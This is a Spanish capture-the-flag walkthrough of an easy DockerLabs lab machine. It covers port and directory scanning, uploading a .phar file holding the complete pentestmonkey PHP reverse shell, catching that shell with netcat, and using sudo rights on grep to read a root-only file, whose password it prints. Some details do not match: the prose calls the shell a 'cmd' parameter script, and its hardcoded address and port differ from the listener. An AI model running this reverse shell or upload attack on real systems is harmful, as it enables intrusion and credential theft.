 Maquina: DockerLabs

Autor: El Pinguino de Mario

Dificultad: Facil

![Captura de pantalla 2024-12-21 175306](https://github.com/user-attachments/assets/a8fc8213-b60f-4290-b14e-a1a53916d91c)

ping 172.17.0.2 -c 1

![Captura de pantalla 2024-12-21 175339](https://github.com/user-attachments/assets/90787601-be3a-4d6a-aded-55e8b9e2c11b)

sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv

![Captura de pantalla 2024-12-21 175432](https://github.com/user-attachments/assets/b7be60f6-63c2-49fd-b200-77ada5b1d11e)

Accederemos a la página web

172.17.0.2

![Captura de pantalla 2024-12-21 175504](https://github.com/user-attachments/assets/06e1f124-7c79-4f8a-adea-2b3403a39f00)

Aplicar Fuzzing para descubrir rutas y archivos con extensiones

gobuster dir -t 150 -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt

![Captura de pantalla 2024-12-21 180019](https://github.com/user-attachments/assets/6a179ae2-fbb5-4608-b5d6-d044856556e1)

Accedemos al archivo machine.php y descubrimos una página web que permite la subida de archivos

![Captura de pantalla 2024-12-21 180540](https://github.com/user-attachments/assets/b24893ca-07d9-4672-b973-2f8d07dcf121)

Intentamos subir un archivo que contenga código PHP para ejecutar comandos a nivel del sistema

![Captura de pantalla 2024-12-21 180617](https://github.com/user-attachments/assets/67038c76-7f51-40ce-b5e6-5417c6673727)

Creamos un archivo llamado pwned.phar que incluye el siguiente código, lo cual nos permite ejecutar comandos del sistema al enviar un parámetro llamado cmd

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 


![Captura de pantalla 2024-12-21 181241](https://github.com/user-attachments/assets/d48255af-431b-4bbb-8ea7-1d2c5f965b0e)

Subimos el archivo .phar y confirmaremos que se ha cargado correctamente

172.17.0.2/upload.php

Ahora, necesitamos enviar una shell inversa a nuestra máquina atacante

En nuestra máquina atacante, nos ponemos a la escucha con Netcat en el puerto 443 utilizando el siguiente comando:

nc -nvlp 443

hacemos click en el archivo para abrirlo

Al ejecutar esto, obtendremos una shell inversa en nuestra máquina atacante. Así, estaremos dentro del sistema

Al ejecutar sudo -l, veremos que podemos ejecutar los binarios /usr/bin/cut y /usr/bin/grep como usuario root sin necesidad de proporcionar una contraseña

![Captura de pantalla 2024-12-21 181544](https://github.com/user-attachments/assets/df492902-a68b-4240-b039-e6230db4720d)

Si realizamos una búsqueda de archivos .txt en el sistema utilizando el comando:

find / *.txt 2>/dev/null

veremos que hay un archivo en /opt/ llamado nota.txt

Al revisar el contenido de ese archivo, encontramos el siguiente mensaje:

Protege la clave de root, se encuentra en su directorio /root/clave.txt. Menos mal que nadie tiene permisos para acceder a ella

tenemos permisos para ejecutar los binarios grep y cut. Aprovecharemos estos permisos para leer el archivo /root/clave.txt de la siguiente manera:

![Captura de pantalla 2024-12-21 181646](https://github.com/user-attachments/assets/35c5c359-1470-40a2-9bcc-cf7ccc59ff19)

sudo grep '' /root/clave.txt

![Captura de pantalla 2024-12-21 181724](https://github.com/user-attachments/assets/2ece230f-d4a2-4bcd-badc-56087964e254)

Leemos el archivo, encontramos una posible contraseña: dockerlabsmolamogollon123.

Cambiamos al usuario root y utilizamos la contraseña encontrada

whoami
